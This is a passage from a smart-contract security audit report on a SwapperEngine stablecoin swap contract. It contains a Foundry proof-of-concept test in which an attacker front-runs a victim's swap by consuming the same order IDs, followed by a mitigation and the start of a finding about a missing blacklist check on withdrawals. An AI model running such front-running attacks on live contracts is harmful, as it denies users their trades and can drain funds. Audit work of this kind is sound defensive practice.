 ```js
        // Attacker front-runs Alice's transaction
        // calling swapUsd0() with the same orderIdsToTake but with a very small Usd0 amount
        uint256 smallUsd0Amount = 0.01e18;
        swapperEngine.swapUsd0(attacker, smallUsd0Amount, orderIdsToTake, true);
        vm.stopPrank();

        // Verify attacker received 0.01 USDC = 0.01e6 (6 decimals)
        assertEq(IUSDC(address(USDC)).balanceOf(attacker), smallUsd0Amount / 1e12);
        
        // Alice's transaction will now revert because orderIdsToTake have been consumed
        vm.startPrank(alice);
        // partialMatch = false -> transaction should revert
        vm.expectRevert(AmountTooLow.selector); 
        daoCollateral.swapRWAtoStbc(address(rwaToken), rwaAmount, false, orderIdsToTake, approval);
        vm.stopPrank();
        
        // Verify Alice didn't get any USDC
        assertEq(IUSDC(address(USDC)).balanceOf(alice), 0);
    }
```

## Mitigation 
Instead of requiring users to specify exact order IDs, automatically match against the best available orders. Attacker won't be able to target specific orders this way.

[Back to Top](#summaryTable)
---

### <a id="m-05"></a>[M-05]
## **Blacklisted Usd0 user can withdraw their USDC from SwapperEngine**
#### https://github.com/sherlock-audit/2025-02-usual-labs-t0x1cC0de/blob/main/pegasus/packages/solidity/src/swapperEngine/SwapperEngine.sol#L258
<br>

## Description
If a user is Usd0 blacklisted, they are [not allowed](https://github.com/sherlock-audit/2025-02-usual-labs-t0x1cC0de/blob/main/pegasus/packages/solidity/src/swapperEngine/SwapperEngine.sol#L218-L220) to deposit USDC into `SwapperEngine.sol`, rightly so.
```solidity
        if (IUsd0(address($.usd0)).isBlacklisted(msg.sender)) {
            revert NotAuthorized();
        }
```

However, the same check is missing inside [withdrawUSDC()](https://github.com/sherlock-audit/2025-02-usual-labs-t0x1cC0de/blob/main/pegasus/packages/solidity/src/swapperEngine/SwapperEngine.sol#L258).
